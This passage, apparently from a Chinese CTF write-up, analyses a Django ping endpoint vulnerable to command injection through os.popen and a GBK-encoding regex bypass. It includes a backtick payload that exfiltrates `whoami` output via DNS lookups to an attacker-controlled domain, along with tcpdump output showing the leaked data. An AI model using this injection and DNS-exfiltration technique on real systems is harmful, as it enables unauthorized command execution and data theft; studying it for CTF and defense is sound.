```python
   if not re.match('^[a-zA-Z0-9\-\./]+$', data):
       return HttpResponse("Invalid URL")
   return HttpResponse(os.popen("ping -c 1 \"%s\"" % data).read())
▶ Local vars
/opt/api/dnsapi/utils.py in escape
   r = ''
   for i in range(len(data)):
       c = data[i]
       if c in ('\\', '\'', '"', '$', '`'):
           r = r + '\\' + c
       else:
           r = r + c
   return r.encode('gbk')
...
```

这里用了dns的api。顿时就想到毕设的一个操作（控制指定一个域名的解析服务器实现DNS隧道）。

本地测试：

```
ping -c 1 "`whoami`.xiaoxi.pegasusx.top"
```

命令会转化为

```
ping -c 1 "xiaoxi.xiaoxi.pegasusx.top"
```

而我们在域名解析上配置，所有xxx.xiaoxi.pegasusx.top都到我们指定的一个服务器进行解析。具体配置参考这篇[博文](https://moxiaoxi.info/2016/11/30/DNStunnel/)

> PS:后期发现这是一个比较通用的思路，就是DNSlog来获取数据。在SQL注入和命令执行时，尤其是没有回显时有神奇的作用。

可以在我们的服务器上看到如下数据：

```bash
➜  ~ tcpdump udp port 53 -X |grep xiaoxi.pegasusx.top
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on venet0, link-type LINUX_SLL (Linux cooked), capture size 65535 bytes
03:40:43.847328 IP duhem.df.lth.se.45156 > ilovefyy.top.domain: 41249+ NULL? vaaaaaaaaaaaaa.xiaoxi.pegasusx.top. (52)
03:41:17.167469 IP 60.215.138.244.50302 > ilovefyy.top.domain: 33379% [1au] A? moxiaoxi.xiaoxi.pegasusx.top. (57)
03:41:17.967575 IP 60.215.138.244.44039 > ilovefyy.top.domain: 24630% [1au] A? moxiaoxi.xiaoxi.pegasusx.top. (57)
```

可以看到whoami的结果被发送过来了。这是因为ping一个域名时，系统会自动解析那个域名，从而将那个域名信息转发到我们的服务器上。而我们可以把想要的信息放在域名的前缀上发送到我们的DNS解析服务器。

接下来的思路就是通过gbk绕过正则，插入一个`.

```python
 data = escape(data)
...
   if not re.match('^[a-zA-Z0-9\-\./]+$', data):
       return HttpResponse("Invalid URL")
   return HttpResponse(os.popen("ping -c 1 \"%s\"" % data).read())
   
```
